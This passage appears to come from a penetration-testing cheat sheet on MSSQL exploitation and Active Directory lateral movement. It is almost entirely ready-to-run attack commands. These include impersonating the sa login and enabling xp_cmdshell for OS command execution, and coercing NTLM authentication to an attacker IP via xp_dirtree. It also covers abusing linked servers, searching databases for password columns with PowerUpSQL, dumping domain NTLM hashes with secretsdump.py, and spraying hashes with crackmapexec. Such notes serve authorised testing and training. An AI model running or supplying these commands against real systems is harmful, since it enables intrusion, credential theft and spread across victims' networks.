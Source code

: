 -  List all login with impersonation permission
```
enum_impersonate
```
- Impersonate user (sa user for example)
```
exec_as_login sa
enable_xp_cmdshell
xp_cmdshell whoami
```
This command launch the following:
```
execute as login='sa';
exec master.dbo.sp_configure 'show advanced options',1;RECONFIGURE;exec master.dbo.sp_configure 'xp_cmdshell', 1;RECONFIGURE;
exec master..xp_cmdshell 'whoami'
```
- Coerce authentication via xp_dirtree 
```
exec master.sys.xp_dirtree '\\192.168.80.1\demontlm',1,1
```
- Listing trusted links
```
enum_links

#or
EXEC sp_linkedservers
EXEC sp_helplinkedsrvlogin
```
- Using link to can get a command injection 
```
use_link LINK_NAME
enable_xp_cmdshell
xp_cmdshell whoami
```

`PowerUpSQL` can also help in MSSQL exploitation:
```
#Perform a SQL query
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select @@servername"

#Dump an instance (a lotof CVSs generated in current dir)
Invoke-SQLDumpInfo -Verbose -Instance "dcorp-mssql"

# Search keywords in columns trying to access the MSSQL DBs
## This won't use trusted SQL links
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "password" -SampleSize 5 | select instance, database, column, sample | ft -autosize

Invoke-SQLOSCmd -Instance "srv.sub.domain.local,1433" -Command "whoami" -RawResults
# Invoke-SQLOSCmd automatically checks if xp_cmdshell is enable and enables it if necessary
```
### Lateral movement techniques
When a Domain Admin credentials has been obtained, it is possible to extract the NTLM hashes of users of the domain:
```
secretsdump.py admpentest01:'MyPassword'@10.X.X.X -just-dc-ntlm -outputfile hash.txt
```
#### PassTheHash
With a hash obtained, it is possible to spray it against domain computers. When there is no LAPS (Local Administrator Password Solution) implemented, Local admin account is often the same on most computers. The test can be done locally with `--local-auth` parameter:
```
crackmapexec smb computers.txt -u Administrator -H 'aaaaaaaaaabbbbbbbbbbbcccccddddeeecfe' --local-auth
```
